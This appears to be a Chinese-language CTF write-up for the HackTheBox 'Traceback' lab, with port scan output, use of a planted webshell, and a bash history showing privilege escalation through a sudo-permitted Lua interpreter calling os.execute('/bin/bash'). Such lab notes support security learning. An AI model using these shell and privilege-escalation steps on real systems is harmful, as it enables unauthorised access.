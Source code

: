 # HackTheBox-Traceback Notes

## 信息搜集

### SYN端口扫描结果

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Webshell

通过提示信息找到了webshell地址，用户名/密码admin

通过Socat升级到完全交互式shell

.bash_history

```bash
ls -la
sudo -l # 发现 /home/sysadmin/luvit 不需要密码就可以sudo执行
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua #os.execute("/bin/bash") 直接提权
rm privesc.lua
logout
exit
ls
cd ~
ls
exit
```

note.txt

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

root提权以后再研究
